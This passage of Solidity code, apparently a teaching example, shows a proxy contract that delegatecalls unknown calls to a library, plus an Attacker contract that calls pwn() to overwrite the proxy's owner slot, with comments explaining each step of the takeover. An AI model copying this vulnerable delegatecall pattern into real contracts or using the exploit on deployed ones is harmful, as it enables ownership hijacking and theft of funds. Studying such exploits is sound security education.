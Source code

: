 ```
    address public owner; // Slot 0. Critical variable.
    Lib public lib;       // Slot 1. Address of the Lib contract.

    constructor(address _libAddress) {
        owner = msg.sender; // Initial owner is deployer
        lib = Lib(_libAddress);
    }

    // Fallback function delegates any unknown calls to the lib contract
    fallback() external payable {
        (bool success, ) = address(lib).delegatecall(msg.data);
        require(success, "Delegatecall to lib failed");
        // Note: Proper return data handling is omitted for brevity here.
    }
}

// Attacker.sol
contract Attacker {
    HackMe public hackMeProxy;
    address payable public attackerEOA;

    constructor(address _hackMeAddress) {
        hackMeProxy = HackMe(_hackMeAddress);
        attackerEOA = payable(msg.sender);
    }

    function attack() public {
        // Construct the calldata for the pwn() function signature.
        // bytes4 funcSelector = bytes4(keccak256("pwn()"));
        // hackMeProxy.call(abi.encodeWithSelector(funcSelector));
        // Or more simply:
        hackMeProxy.call(abi.encodeWithSignature("pwn()"));

        // After this call:
        // 1. HackMe.fallback() is triggered.
        // 2. HackMe.fallback() delegatecalls to Lib with msg.data = abi.encodeWithSignature("pwn()").
        // 3. Lib.pwn() executes in HackMe's context.
        // 4. Inside Lib.pwn(), 'owner = msg.sender;' writes to HackMe's slot 0.
        // 5. 'msg.sender' in this delegatecall context is address(this) (the Attacker contract).
        // So, HackMe.owner becomes address(Attacker).
    }

    function checkOwner() public view returns (address) {
        return hackMeProxy.owner();
    }

    function withdrawFromHackMe() public { // Assuming HackMe has funds and Attacker is now owner
        // This would require HackMe to have a withdraw function callable by its owner.
        // For simplicity, this step is conceptual.
    }
    receive() external payable {}
}

```
